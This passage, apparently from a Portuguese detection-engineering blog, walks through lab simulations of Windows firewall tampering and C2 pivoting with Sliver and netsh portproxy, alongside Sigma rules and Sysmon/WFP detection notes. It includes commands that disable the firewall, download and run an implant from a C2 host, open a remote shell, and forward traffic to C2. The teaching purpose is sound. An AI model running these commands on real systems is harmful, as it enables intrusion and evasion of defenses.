

## Como simular?

```powershell
# Criar regra outbound
netsh advfirewall firewall add rule name="Microsoft Compatibility Telemetry" dir=out action=allow remoteip=192.168.223.137 enable=yes

# Ou desabilitar firewall completamente
netsh advfirewall set allprofiles state off
```

## Detecção no SIEM

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 5. </strong>Detecção via Sysmon e Windows Security.</i></figcaption>
</figure>

## Regra SIEM

```yml
title: Windows - Firewall Rule Manipulation for Remote Communication
id: b9c95b99-8f3e-5d2g-0c4b-6e5f7g8h9i0d
status: experimental
description: Detecta criação de regras de firewall permitindo comunicação com IPs específicos, incluindo todas as variações de comandos netsh advfirewall e suas abreviações.
references:
    - https://attack.mitre.org/techniques/T1562/004/
author: Security Team
date: 2025/01/16
modified: 2025/01/16
tags:
    - attack.defense_evasion
    - attack.t1562.004
    - attack.command_and_control
logsource:
    product: windows
    category: process_creation
detection:
    selection_netsh:
        - Image|endswith: '\netsh.exe'
        - OriginalFileName: 'netsh.exe'
    selection_advfirewall:
        CommandLine|contains:
            - 'advfirewall'
            - ' adv '
    selection_firewall:
        CommandLine|contains:
            - 'firewall'
            - ' f '
    selection_action_add:
        CommandLine|contains:
            - ' add '
            - ' a '
    selection_rule:
        CommandLine|contains: 'rule'
    selection_params:
        CommandLine|contains:
            - 'action='
            - 'remoteip='
            - 'dir='
    condition: selection_netsh and selection_advfirewall and (selection_firewall or selection_action_add) and selection_rule and selection_params
falsepositives:
    - Legitimate firewall management
    - Software installations
level: medium
```

# Técnica 5: Firewall Manipulation via PowerShell

<kbd>**MITRE ATT&CK:** T1562.004 (Impair Defenses: Disable or Modify System Firewall)</kbd>
<br>
<kbd>**MITRE ATT&CK:** T1059.001 (Command and Scripting Interpreter: PowerShell)</kbd>

É o equivalente à **Técnica 4: Netsh Firewall Advfirewall Manipulation**, porém, via PowerShell.

```powershell
New-NetFirewallRule -DisplayName "Microsoft Compatibility Telemetry" -Direction Outbound -Action Allow -RemoteAddress 192.168.223.137

# Desabilitar firewall
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

## Regra SIEM

Conforme comentado na **Técnica 2: Disable Task Offloading**, os comandos administrativos não são alterados por aliases, então ficam fáceis de se capturar por uma regra simples.

```yml
title: Windows Firewall Disabled via PowerShell Cmdlet
id: g4h40g44-3k8j-0i7l-5h9g-1j0k2l3m4n5i
status: experimental
description: Detecta desativação do Windows Firewall usando cmdlets PowerShell em qualquer perfil (Domain, Public, Private).
references:
    - https://attack.mitre.org/techniques/T1562/004/
author: Security Team
date: 2025/01/16
tags:
    - attack.defense_evasion
    - attack.t1562.004
logsource:
    product: windows
    service: powershell
    definition: 'Requirements: Script Block Logging must be enabled'
detection:
    selection:
        EventID: 4104
        ScriptBlockText|contains|all:
            - 'Set-NetFirewallProfile'
            - '-Enabled'
    selection_false:
        ScriptBlockText|contains: 'False'
    selection_profile:
        ScriptBlockText|contains:
            - 'Domain'
            - 'Public'
            - 'Private'
    condition: selection and selection_false and selection_profile
falsepositives:
    - Legitimate administrative scripts
    - Troubleshooting activities
level: high
```
# Técnica 6: Native Domain Pivoting

<kbd>**MITRE ATT&CK:** T1562.004 (Impair Defenses: Disable or Modify System Firewall)</kbd>
<br>
<kbd>**MITRE ATT&CK:** T1090.001 (Proxy: Internal Proxy)</kbd>

## Visão geral

Uso de máquina comprometida como proxy para rotear tráfego C2 de outros implants.

Dois métodos:

1. **Método A: netsh portproxy** (usa comando nativo do Windows)
2. **Método B: Sliver Native Pivoting** (stealth, sem comandos Windows)

## Método A: netsh portproxy

### Arquitetura



### Simulação: Método A

#### Passo 1: Configurar C2

```bash
# Iniciar listener mTLS
[server] sliver > mtls --lhost 0.0.0.0 --lport 443

[*] Starting mTLS listener ...
[*] Successfully started job #1
```

#### Passo 2: Gerar Implant Pivot

```bash
[server] sliver > generate \
  --mtls pivot.sandsoncosta.com:443 \
  --os windows \
  --arch amd64 \
  --save /tmp/pivot_netsh.exe \
  --skip-symbols

[*] Generating new windows/amd64 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 2s
[*] Implant saved to /tmp/pivot_netsh.exe
```

#### Passo 3: Executar na Máquina Pivot

```powershell
# Máquina Pivot (192.168.56.10)
mkdir "C:\Users\$env:USERNAME\AppData\Roaming\Microsoft Update"
cd "C:\Users\$env:USERNAME\AppData\Roaming\Microsoft Update"
iwr -Uri "http://192.168.223.137:8080/pivot_netsh.exe" -OutFile "C:\Users\$env:USERNAME\AppData\Roaming\Microsoft Update\pivot.exe"
.\pivot.exe
```

```bash
# Verificar session
[*] Session 55bfb2f6 AFRAID_ATTORNEY - 192.168.223.149:54837 (kingslanding) - windows/amd64 - Sat, 17 Jan 2026 13:16:23 EST

[server] sliver > sessions

 ID         Name              Transport   Remote Address          Hostname       Username                         Operating System   Locale   Last Message                             Health
========== ================= =========== ======================= ============== ================================ ================== ======== ======================================== =========
 55bfb2f6   AFRAID_ATTORNEY   mtls        192.168.223.149:54837   kingslanding   SEVENKINGDOMS\robert.baratheon   windows/amd64      en-US    Sat Jan 17 13:16:23 EST 2026 (10s ago)   [ALIVE]
```

#### Passo 4: Configurar netsh portproxy

```bash
[server] sliver > use 55bfb2f6
[*] Active session AFRAID_ATTORNEY (55bfb2f6-5f2c-48eb-a50e-39b6a95e798e)

[server] sliver (AFRAID_ATTORNEY) > shell
# kkkkk o C2 é brincante
? This action is bad OPSEC, are you an adult? Yes
[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...
[*] Started remote shell with pid 2972
```
```powershell
# Dentro do PowerShell via C2
PS C:\Users\robert.baratheon\AppData\Roaming\Microsoft Update> netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com

PS C:\Users\robert.baratheon\AppData\Roaming\Microsoft Update> netsh interface portproxy show all
netsh interface portproxy show all

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
0.0.0.0         8080        pivot.sandsoncosta.com 443

PS C:\Users\robert.baratheon\AppData\Roaming\Microsoft Update>
```

#### Passo 5: Configurar Firewall (Opcional)

```powershell
PS C:\Users\robert.baratheon\AppData\Roaming\Microsoft Update> netsh advfirewall firewall add rule name="Pivot Port 8080" dir=in action=allow protocol=TCP localport=8080
PS C:\Users\robert.baratheon\AppData\Roaming\Microsoft Update> exit
```

#### Passo 6: Gerar Implant lateral

```bash
# Conecta ao IP do pivot na porta do portproxy
[server] sliver > generate \
  --mtls 192.168.56.10:8080 \
  --os windows \
  --arch amd64 \
  --save /tmp/lateral_netsh.exe \
  --skip-symbols

[*] Generating new windows/amd64 implant binary
[*] Build completed in 2s
[*] Implant saved to /tmp/lateral_netsh.exe
[*] C2 URL: mtls://192.168.56.10:8080
```

#### Passo 7: Executar na Target

```powershell
# Máquina Target (192.168.57.10)
.\lateral.exe
```

#### Passo 8: Verificar Sessões

```bash
[server] sliver > sessions

 ID         Name              Transport   Remote Address          Hostname       Username                         Operating System   Locale   Last Message                               Health
========== ================= =========== ======================= ============== ================================ ================== ======== ========================================== =========
 47342346   AFRAID_ATTORNEY   mtls        192.168.223.149:54964   kingslanding   SEVENKINGDOMS\robert.baratheon   windows/amd64      en-US    Sat Jan 17 14:55:07 EST 2026 (1m43s ago)   [ALIVE]
 b7c7f060   DRAMATIC_ARROW    mtls        192.168.223.149:55047   winterfell     NORTH\robb.stark                 windows/amd64      en-US    Sat Jan 17 14:56:21 EST 2026 (29s ago)     [ALIVE]
                                          ↑ Tráfego encaminhado via netsh
[server] sliver >
```

---
#### Detecção no SIEM

##### Detecção do **Passo 3**

Neste cenário, é muito importante o uso do Sysmon, com ele você consegue detectar até melhor que o próprio log nativo do Windows, por meio dos logs de DNS, este, gera muito log. É importante detectar conexões a partir de pastas incomuns, como `AppData`, `Temp`, `C:/Temp`, `C:/temp`, `C:/tmp`, `C:/TMP`, `user Public`.

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 6. </strong>Detecção via Sysmon.</i></figcaption>
</figure>

##### Detecção do **Passo 4**

A regra da **Técnica 3: Netsh Port Forwarding** já captura esse cenário.

##### Detecção do **Passo 7**

Existe a possibilidade de gerar muitos falsos-positivos devido a aplicações internas. Nesse tipo de situação, o ideal é analisar o ambiente e ver se faz sentido desenvolver alguma regra e/ou incluir exceções na regra.

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 7. </strong>Detecção via Sysmon.</i></figcaption>
</figure>

## Método B: Sliver Native Pivoting

### Arquitetura



### Simulação: Método B

#### Passo 1: Configurar C2

```bash
# Iniciar listener mTLS
[server] sliver > mtls --lhost 0.0.0.0 --lport 443

[*] Starting mTLS listener ...
[*] Successfully started job #1

[server] sliver > jobs

 ID   Name   Protocol   Port   Stage Profile
==== ====== ========== ====== ===============
 1    mtls   tcp        443
```

#### Passo 2: Gerar Implant Pivot

```bash
[server] sliver > generate \
  --mtls pivot.sandsoncosta.com:443 \
  --os windows \
  --arch amd64 \
  --save /tmp/pivot_native.exe \
  --skip-symbols

[*] Generating new windows/amd64 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 2s
[*] Implant saved to /tmp/pivot_native.exe
```

#### Passo 3: Executar na Máquina Pivot

```powershell
# Máquina Pivot (192.168.56.10)
PS C:\Temp> .\pivot_native.exe
```

```bash
# Verificar session
[server] sliver > sessions

# Aqui eu listo todas as sessions que testamos até o momento.
 ID         Name                  Transport   Remote Address          Hostname       Username                         Operating System   Locale   Last Message                               Health
========== ===================== =========== ======================= ============== ================================ ================== ======== ========================================== =========
 12210d77   DRAMATIC_ARROW        mtls        192.168.223.149:56048   winterfell     NORTH\robb.stark                 windows/amd64      en-US    Sat Jan 17 19:48:18 EST 2026 (1m27s ago)   [ALIVE]
 3a420a8c   AFRAID_ATTORNEY       mtls        192.168.223.149:56046   kingslanding   SEVENKINGDOMS\robert.baratheon   windows/amd64      en-US    Sat Jan 17 19:48:01 EST 2026 (1m44s ago)   [ALIVE]
 5d1b9c10   CONVINCING_FOOTNOTE   mtls        192.168.223.149:56045   kingslanding   SEVENKINGDOMS\robert.baratheon   windows/amd64      en-US    Sat Jan 17 19:49:33 EST 2026 (12s ago)     [ALIVE]
 b44f0872   ICY_LOGIC             mtls        192.168.223.149:56103   kingslanding   SEVENKINGDOMS\robert.baratheon   windows/amd64      en-US    Sat Jan 17 19:48:54 EST 2026 (51s ago)     [ALIVE]
 d0450fea   DRAMATIC_ARROW        mtls        192.168.223.149:56043   winterfell     NORTH\robb.stark                 windows/amd64      en-US    Sat Jan 17 19:49:33 EST 2026 (12s ago)     [ALIVE]

[server] sliver >
```

#### Passo 4: Criar Listener Nativo

Esse passo do listener nativo, não gera nenhum log no windows, das informações que comumente todo SOC captura, que geralmente são eventos de Security, Application (nem sempre), System (nem sempre). Essa informação é capturada, porém com uma auditoria específica, que falamos na sessão **ESCREVER A SESSÃO AQUI**.

```bash
[server] sliver > use b44f0872

[*] Active session ICY_LOGIC (b44f0872-8022-4140-85a1-3b2928abde38)

[server] sliver (ICY_LOGIC) > pivots tcp

[*] Started tcp pivot listener :9898 with id 1

[server] sliver (ICY_LOGIC) > pivots

 ID   Protocol   Bind Address   Number Of Pivots
==== ========== ============== ==================
  1   TCP        :9898                         0
```

#### Passo 5: Gerar Implant Lateral

```bash
# Conecta ao IP INTERNO do pivot
[server] sliver > generate \
  --mtls 192.168.56.10:9898 \
  --os windows \
  --arch amd64 \
  --save /tmp/lateral_native.exe \
  --skip-symbols

[*] Generating new windows/amd64 implant binary
[*] Build completed in 2s
[*] Implant saved to /tmp/lateral_native.exe
[*] C2 URL: mtls://192.168.56.10:9898
```

#### Passo 6: Executar na Target

```powershell
# Máquina Target (192.168.57.10)
PS C:\Windows\Temp> .\lateral_native.exe
```

#### Passo 7: Verificar Sessões

```bash
[server] sliver (ICY_LOGIC) > sessions

 ID         Name                  Transport   Remote Address          Hostname       Username                         Operating System   Locale   Last Message                               Health
========== ===================== =========== ======================= ============== ================================ ================== ======== ========================================== =========
 12210d77   DRAMATIC_ARROW        mtls        192.168.223.149:56048   winterfell     NORTH\robb.stark                 windows/amd64      en-US    Sat Jan 17 20:11:44 EST 2026 (25s ago)     [ALIVE]
 3a420a8c   AFRAID_ATTORNEY       mtls        192.168.223.149:56046   kingslanding   SEVENKINGDOMS\robert.baratheon   windows/amd64      en-US    Sat Jan 17 20:12:01 EST 2026 (8s ago)      [ALIVE]
 5d1b9c10   CONVINCING_FOOTNOTE   mtls        192.168.223.149:56045   kingslanding   SEVENKINGDOMS\robert.baratheon   windows/amd64      en-US    Sat Jan 17 20:11:34 EST 2026 (35s ago)     [ALIVE]
 d0450fea   DRAMATIC_ARROW        mtls        192.168.223.149:56043   winterfell     NORTH\robb.stark                 windows/amd64      en-US    Sat Jan 17 20:11:33 EST 2026 (36s ago)     [ALIVE]
 b44f0872   ICY_LOGIC             mtls        192.168.223.149:56103   kingslanding   SEVENKINGDOMS\robert.baratheon   windows/amd64      en-US    Sat Jan 17 20:10:12 EST 2026 (1m57s ago)   [ALIVE]
```

Esses últimos passos são os mesmos do **Método A**.

## Comparação dos Métodos

| Aspecto | Método A (netsh) | Método B (Native) |
|---------|------------------|-------------------|
| **Comandos Windows** | `netsh` detectável | Nenhum (Se levar em consideração os Channels mais comuns de coleta no Windows) |
| **Logs do Windows** | `Event 4688` (netsh), `5156` (firewall - falarei mais na frente sobre esse EID.) | Minimal |
| **Persistência** | Sobrevive a reboot | Morre se pivot reiniciar (carece de outras técnicas) |
| **Stealth** | Média | Alta |
| **Facilidade** | Fácil | Moderada |
| **Performance** | Adicional hop (netsh) | Melhor (túnel direto) |
| **Detecção EDR** | Fácil (assinatura de comando) | Difícil |

Sobre a detecção de EDR, eu tô chutando no escuro. Não tenho experiências reais de Pentest e nem tenho EDR pra testar... Na verdade tenho o EDR da Elastic Security, mas não cheguei a ver isso não... O artigo já tá muito extenso... Vou deixar essa parte para comentários dos meus colegas da área que claramente tem mais experiência que eu em pentest real. 

## Evidências Forenses

Durante a **Resposta a Incidentes**, comandos como `netsh interface portproxy show all` para identificar proxys configurados, comandos como `netstat -ano | findstr 8080` para identificar conexões a portas suspeitas. Uso de ferramentas como Process Explorer ou System Informer (conforme **Figura 8**), são extremamente importantes para identificação de algum agente malicioso.

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 8. </strong>Identificação de conexão via System Informer.</i></figcaption>
</figure>

## Ponto de alerta

E se eu fizesse o pivoting em `localhost:8080`? O que aconteceria?

Eu configuro o `protproxy` para `localhost:8080` e gero o _implant_ para `localhost`. Como eu consigo capturar isso?

Em teoria, eu deveria ver alguma conexão via EID 3 ou EID 22, certo?

Veja como se comporta o log quando testamos a configuração neste modelo:

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 9. </strong>A conexão localhost não gera a porta de conexão nativa configurada no portproxy, como podemos ver.</i></figcaption>
</figure>

Via EID 22, podemos ver que ele se conectou ao próprio ip, digamos que não foi "localmente".

Via EID 3, vemos que ele se conecta nas portas `135`e `49668`, portas de uso do RPC.

E aqui entra a curiosidade técnica, ponto de alerta e um "enorme" blind spot de detecção...

### Limitações de detecção via Sysmon

#### Por que a conexão para `localhost:8080` não aparece nos logs?

O **netsh portproxy** opera em **nível de kernel** através do serviço IP Helper (iphlpsvc - ver **Figura 8**), fazendo o redirecionamento de porta **antes** que o tráfego seja visível como uma conexão TCP tradicional no `usermode`, onde o Sysmon monitora.

**Fluxo técnico:**



O Sysmon captura conexões através do Event Tracing for Windows (ETW) em nível de kernel, porém o redirecionamento feito pelo `netsh portproxy` acontece em uma camada INFERIOR, através do driver do IP Helper Service (iphlpsvc), antes que o ETW consiga capturar.

**O que você NÃO verá nos logs do Windows:**

- Conexão para `192.168.56.10:8080` (porta do portproxy)
- Conexão para `192.168.223.130:443` (IP final do C2)
- Qualquer evidência da conexão real de C2 no Sysmon Event ID 3

**O que você VAI ver nos logs do Windows:**

- Conexões RPC/DCOM locais (portas 135, 49668+) - tentativas automáticas de resolução
- Queries DNS para o hostname local ou do domínio (Sysmon Event ID 22)
- Execução do processo suspeito em pasta incomum (Sysmon Event ID 1)
- Modificação do registro PortProxy (Sysmon Event ID 13)

**O que você SÓ verá no Firewall/NGFW:**

- Conexão real `192.168.56.10 → 192.168.223.130:443` após o redirecionamento
- Tráfego saindo da rede com origem no IP do pivot

#### Conexões RPC/DCOM (portas 135, 49668)

Essas são **tentativas automáticas de resolução RPC** do Windows antes de estabelecer a conexão principal:

- **Porta 135 (epmap)**: RPC Endpoint Mapper - o Windows tenta mapear serviços RPC locais
- **Porta 49668+**: Portas dinâmicas RPC (range 49152-65535)

Isso acontece porque o implant está rodando no contexto de um usuário do domínio e o Windows tenta automaticamente resolver alguns serviços locais antes de fazer a conexão externa.

**IMPORTANTE:** Essas são as ÚNICAS conexões de rede que você verá no Sysmon Event ID 3 para o processo `local.exe`. A conexão real para o C2 (`192.168.223.130:443`) **NÃO aparece** no Sysmon porque o redirecionamento via portproxy acontece em nível inferior ao monitoramento do ETW.

#### Detecção avançada via Windows Filtering Platform (WFP)

##### Habilitando auditoria de conexões em nível de kernel

É possível capturar o redirecionamento de porta em nível de kernel habilitando auditoria da **Windows Filtering Platform (WFP)**. Contudo, **essa abordagem NÃO é recomendada para produção devido ao volume massivo de logs gerados**.

##### Configuração via GPO

```yml
Computer Configuration
└── Policies
    └── Windows Settings
        └── Security Settings
            └── Advanced Audit Policy Configuration
                └── System Audit Policies
                    └── Object Access
                        ├── Audit Filtering Platform Connection
                        └── Audit Filtering Platform Policy Change
```

##### Event IDs Gerados (Channel: Security)

| Event ID | Descrição | Utilidade |
|----------|-----------|-----------|
| **5156** | WFP permitiu conexão | Captura TODAS as conexões permitidas, incluindo redirecionamentos |
| **5157** | WFP bloqueou conexão | Útil para detectar tentativas bloqueadas pelo firewall |
| **5158** | WFP permitiu bind em porta local | Detecta quando aplicação abre porta de escuta |
| **5031** | Firewall bloqueou aplicação | Aplicação tentou conexão mas foi bloqueada |

##### Exemplo de Event ID 5156

```yml
The Windows Filtering Platform has permitted a connection.

Application Information:
	Process ID:		6272
	Application Name:	\device\harddiskvolume2\users\robert.baratheon\appdata\roaming\microsoft update\local.exe

Network Information:
	Direction:		Outbound
	Source Address:		127.0.0.1
	Source Port:		56044
	Destination Address:	127.0.0.1
	Destination Port:		8080
	Protocol:		6

Filter Information:
	Filter Run-Time ID:	93535
	Layer Name:		Connect
	Layer Run-Time ID:	48
```

#### ALERTA CRÍTICO: Volume de logs insustentável

Durante os testes com **apenas 1 VM Windows**, a habilitação da auditoria WFP gerou:

- **700.000+ eventos em 5 minutos**
- **~2.333 eventos por segundo**
- **~140.000 eventos por minuto**

**Projeção para ambiente corporativo:**

| Cenário | Quantidade de Hosts | Eventos/Hora | Eventos/Dia | Impacto |
|---------|---------------------|--------------|-------------|---------|
| Lab (1 VM) | 1 | 8.4 milhões | 201 milhões | Insustentável |
| Pequena Empresa | 50 | 420 milhões | 10 bilhões | SIEM vai de arrasta |
| Média Empresa | 500 | 4.2 bilhões | 100 bilhões | Impossível armazenar |
| Grande Empresa | 5000 | 42 bilhões | 1 trilhão | Catastrófico |

##### Por que tantos logs?

O Event ID 5156 registra **TODAS** as conexões de rede permitidas pelo firewall, incluindo:

- Conexões legítimas de navegadores (HTTP/HTTPS)
- Atualizações do Windows Update
- Sincronização de Active Directory
- Replicação de serviços
- Heartbeats de aplicações
- DNS queries
- SMB/CIFS file sharing
- RPC/DCOM interno
- Telemetria do Windows
- Comunicação entre serviços do sistema

## Abordagem recomendada: detecção multi-camada

### Estratégia 1: detecção baseada em comportamento (sem WFP audit)

Como demonstrado nos logs reais, **o Sysmon Event ID 3 NÃO captura a conexão final ao C2** quando há redirecionamento via `portproxy`. Por isso, a detecção deve ser baseada em **correlação de múltiplos indicadores** e **logs de firewall/NGFW** para ver o tráfego real.

